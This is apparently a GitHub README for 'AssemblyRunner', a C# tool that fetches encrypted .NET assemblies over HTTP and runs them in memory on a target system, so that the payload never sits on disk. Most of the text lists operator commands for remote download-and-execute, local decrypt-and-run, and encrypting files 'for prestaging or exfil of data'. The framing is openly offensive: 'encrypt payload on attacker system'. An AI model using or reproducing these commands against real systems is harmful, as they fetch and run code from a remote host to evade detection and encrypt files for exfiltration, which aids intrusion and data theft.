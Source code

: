 # AssemblyRunner

C# Binary that is deseigned to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

If performed correctly, actual executed payload is never on-disk. 

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run
AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File
--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC
--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
